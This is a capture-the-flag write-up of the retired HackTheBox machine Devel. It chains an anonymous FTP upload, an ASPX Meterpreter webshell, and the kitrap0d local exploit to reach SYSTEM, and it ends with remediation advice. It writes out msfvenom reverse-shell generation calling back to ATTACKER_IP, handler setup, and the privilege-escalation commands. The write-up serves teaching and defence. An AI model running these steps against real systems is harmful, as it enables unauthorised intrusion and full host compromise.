# Devel — Anonymous FTP → ASPX webshell → Meterpreter → Local exploit → SYSTEM (Lab)

**Date:** 2025-10-19

---

## TL;DR

Anonymous FTP allowed uploading an ASPX webshell. I uploaded a Meterpreter ASPX payload and triggered it via HTTP to get a Meterpreter session. After enumerating the host and running a local exploit suggester, I used a 32‑bit local exploit to escalate to **NT AUTHORITY\SYSTEM**. All testing was performed on a retired HackTheBox lab VM in an isolated environment. PoC artifacts in this writeup are sanitized.

---

## Scope & permission

This work was performed on a **retired HackTheBox machine** in a lab I control. All commands and artifacts in this document are sanitized for public release. **Do not run exploit code against third‑party or production systems.**

---

## Environment (sanitized)

* **Target:** `TARGET_IP` (devel)
* **Discovered services (sanitized):**

  * FTP — anonymous allowed (Microsoft ftpd)
  * HTTP — Microsoft IIS 7.5 (IIS7)
* **OS:** Windows (32‑bit / x86) — determined from Meterpreter `sysinfo`.

---

## Tools used

`nmap`, `ftp` (or any FTP client), `msfvenom` (payload generation), `msfconsole` (multi/handler & local exploit), a web browser / `curl` to trigger the uploaded webshell, `netstat`/`ss`, Meterpreter post modules (`local_exploit_suggester`), and common shell utilities.

> All steps were performed in an isolated lab.

---

## Chain summary (short)

1. Port scan → anonymous FTP discovered.
2. Upload ASPX payload (Meterpreter) via anonymous FTP.
3. Trigger the ASPX payload through IIS to get a Meterpreter session.
4. Use Meterpreter to enumerate and confirm x86 (32‑bit) target.
5. Run `post/multi/recon/local_exploit_suggester` to find suitable local exploits.
6. Launch a 32‑bit local exploit (lab‑only) to spawn a SYSTEM session.

---

## Detailed, reproducible (sanitized) steps

### 1) Initial scan

```bash
nmap -sCV -T4 --open -oA recon --stats-every 5s TARGET_IP
```

**Observed (sanitized):**

* FTP (21) — Microsoft ftpd — anonymous FTP login allowed
* HTTP (80) — Microsoft‑IIS/7.5 (IIS7)

### 2) Confirm anonymous FTP and list files

```text
ftp TARGET_IP
username: anonymous
password: (blank)
ls
```

Noted `aspnet_client/` (empty), `iisstart.htm`, and `welcome.png`. Nothing immediately interesting in the pages, but **anonymous write/upload was possible**.

### 3) Generate an ASPX Meterpreter payload (lab‑only)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=LPORT -f aspx > devel.aspx
```

> **Note:** On restricted networks, ports `<1024` may require privileges — choose a port you can receive on.

### 4) Upload the ASPX to the webroot via anonymous FTP

```text
ftp TARGET_IP
login as anonymous
put devel.aspx
# confirm the file is present (e.g., in IIS webroot)
```

If the FTP root maps to the IIS webroot, the uploaded `devel.aspx` becomes web‑accessible (for example: `http://TARGET_IP/devel.aspx`).

### 5) Set up a handler and trigger the webshell

Start a handler on your attacking host (msfconsole example):

```text
# in msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT LPORT
set ExitOnSession false
exploit -j
```

Trigger the webshell by browsing to the uploaded ASPX (or curl `http://TARGET_IP/devel.aspx`) — this should call back to your handler and create a Meterpreter session.

### 6) Interact with the Meterpreter session

```text
# in msfconsole
sessions -i <id>
# at meterpreter prompt
sysinfo   # confirm OS and architecture (Observed x86)
pwd       # observed C:\Windows\system32\inetsrv
```

From this session, `sysinfo` reported **32‑bit (x86)** and the current working directory was `C:\Windows\System32\inetsrv`. Ensure local exploit choices match the discovered architecture.

### 7) Upload / move to writable folders (if needed)

The web context often allows writing to `C:\Windows\Temp` or other temp locations. Use such a path to stage additional binaries or exploits as required.

### 8) Enumerate and suggest local exploits

Use Meterpreter’s local exploit suggester:

```text
run post/multi/recon/local_exploit_suggester
```

This returns a prioritized list of local exploits that may work on the target given OS/patch level/architecture.

### 9) Launch a 32‑bit local exploit (lab‑only)

Using `msfconsole` execute the exploit against the Meterpreter session:

```text
# in msfconsole
use exploit/windows/local/ms10_015_kitrap0d
set SESSION <meterpreter-session-id>
set LHOST ATTACKER_IP
set LPORT LPORT
set PAYLOAD windows/meterpreter/reverse_tcp
exploit -j
```

The exploit succeeded and a new background session with **SYSTEM** privileges was created.

> **Important:** choose a local exploit appropriate to the discovered OS, arch, and patch level.

### 10) Verify SYSTEM and capture flags

```text
# switch to the new session
sessions -i <new-session-id>
getuid  # shows NT AUTHORITY\SYSTEM
# retrieve flags
cd C:\Users\<user>\Desktop
type user.txt
cd C:\Users\Administrator\Desktop
type root.txt
```

---

## Impact

Full host compromise: anonymous FTP + writable webroot allowed remote payload upload → web‑executable payload → remote shell → local exploit → SYSTEM.

On real systems this chain would allow attackers to exfiltrate sensitive data, create persistence, and move laterally.

---

## Remediation (prioritized)

1. **Disable anonymous FTP** or restrict it to an isolated, non‑webroot directory. Anonymous write access to a directory mapped to the webroot is a critical misconfiguration.
2. **Harden IIS/FTP mapping:** ensure uploaded files cannot be served/executed as code (deny execute permission on upload directories). Store user uploads outside the web‑executable tree and serve them via safe proxies or with strict content‑type checks.
3. **Patch Windows and apply vendor fixes:** keep systems up to date; the local exploit used targets known, patchable vulnerabilities.
4. **Least privilege & segmentation:** run web services with minimal privileges and avoid unnecessary SYSTEM‑level service contexts.
5. **Monitoring & alerting:** alert on new files in the webroot, anomalous FTP uploads, or suspicious outbound callbacks that resemble Meterpreter behavior.
6. **File integrity & upload validation:** validate uploads, whitelist allowed extensions, strip/scan for web‑executable content, and perform server‑side validation.

---

## Appendix / Notes

* All artifacts and commands in this document are **sanitized** for public release and were executed in an isolated, controlled lab environment.
* This writeup documents a common yet preventable attack chain; it is presented for defensive awareness and remediation guidance only.
